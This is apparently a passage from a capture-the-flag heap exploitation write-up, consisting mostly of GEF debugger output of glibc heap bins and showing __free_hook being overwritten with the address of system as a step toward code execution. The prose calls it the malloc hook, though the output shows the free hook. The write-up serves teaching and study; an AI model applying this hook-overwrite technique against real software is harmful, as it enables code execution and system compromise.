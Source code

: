 ```
Fastbins[idx=1, size=0x20] 0x00
Fastbins[idx=2, size=0x30] 0x00
Fastbins[idx=3, size=0x40] 0x00
Fastbins[idx=4, size=0x50] 0x00
Fastbins[idx=5, size=0x60] 0x00
Fastbins[idx=6, size=0x70] 0x00
─────────────────── Unsorted Bin for arena '*0x7f2f01102c40' ───────────────────
[+] Found 0 chunks in unsorted bin.
──────────────────── Small Bins for arena '*0x7f2f01102c40' ────────────────────
[+] small_bins[1]: fw=0x562ae9e281d0, bk=0x562ae9e281d0
 →   Chunk(addr=0x562ae9e281e0, size=0x20, flags=PREV_INUSE)
[+] small_bins[4]: fw=0x562ae9e28210, bk=0x562ae9e28210
 →   Chunk(addr=0x562ae9e28220, size=0x50, flags=PREV_INUSE)
[+] Found 2 chunks in 2 small non-empty bins.
──────────────────── Large Bins for arena '*0x7f2f01102c40' ────────────────────
[+] Found 0 chunks in 0 large non-empty bins.
gef➤  x/g 0x7f2f011048e8
0x7f2f011048e8 <__free_hook>: 0x0
```

So we can see that the address of the malloc hook is in the tcache. After that we can allocate it next and write to it:

```
gef➤  heap bins
───────────────────── Tcachebins for arena 0x7f2f01102c40 ─────────────────────
Tcachebins[idx=1, size=0x20] count=1  ←  Chunk(addr=0x562ae9e27310, size=0x30, flags=PREV_INUSE)
Tcachebins[idx=2, size=0x30] count=1  ←  Chunk(addr=0x562ae9e272b0, size=0x40, flags=PREV_INUSE)
Tcachebins[idx=3, size=0x40] count=1  ←  Chunk(addr=0x562ae9e27340, size=0x50, flags=PREV_INUSE)
Tcachebins[idx=5, size=0x60] count=1  ←  Chunk(addr=0x562ae9e28270, size=0x70, flags=)
Tcachebins[idx=7, size=0x80] count=1  ←  Chunk(addr=0x562ae9e27390, size=0x90, flags=PREV_INUSE)
Tcachebins[idx=11, size=0xc0] count=1  ←  Chunk(addr=0x562ae9e27ae0, size=0xd0, flags=PREV_INUSE)
Tcachebins[idx=14, size=0xf0] count=1  ←  Chunk(addr=0x562ae9e27420, size=0x100, flags=PREV_INUSE)
Tcachebins[idx=29, size=0x1e0] count=1  ←  Chunk(addr=0x562ae9e27520, size=0x1f0, flags=PREV_INUSE)
Tcachebins[idx=59, size=0x3c0] count=1  ←  Chunk(addr=0x562ae9e27710, size=0x3d0, flags=PREV_INUSE)
────────────────────── Fastbins for arena 0x7f2f01102c40 ──────────────────────
Fastbins[idx=0, size=0x10] 0x00
Fastbins[idx=1, size=0x20] 0x00
Fastbins[idx=2, size=0x30] 0x00
Fastbins[idx=3, size=0x40] 0x00
Fastbins[idx=4, size=0x50] 0x00
Fastbins[idx=5, size=0x60] 0x00
Fastbins[idx=6, size=0x70] 0x00
─────────────────── Unsorted Bin for arena '*0x7f2f01102c40' ───────────────────
[+] Found 0 chunks in unsorted bin.
──────────────────── Small Bins for arena '*0x7f2f01102c40' ────────────────────
[+] small_bins[1]: fw=0x562ae9e281d0, bk=0x562ae9e281d0
 →   Chunk(addr=0x562ae9e281e0, size=0x20, flags=PREV_INUSE)
[+] small_bins[4]: fw=0x562ae9e28210, bk=0x562ae9e28210
 →   Chunk(addr=0x562ae9e28220, size=0x50, flags=PREV_INUSE)
[+] Found 2 chunks in 2 small non-empty bins.
──────────────────── Large Bins for arena '*0x7f2f01102c40' ────────────────────
[+] Found 0 chunks in 0 large non-empty bins.
gef➤  x/g 0x7f2f011048e8
0x7f2f011048e8 <__free_hook>: 0x7f2f00d66440
gef➤  x/i 0x7f2f00d66440
   0x7f2f00d66440 <system>: test   rdi,rdi
```

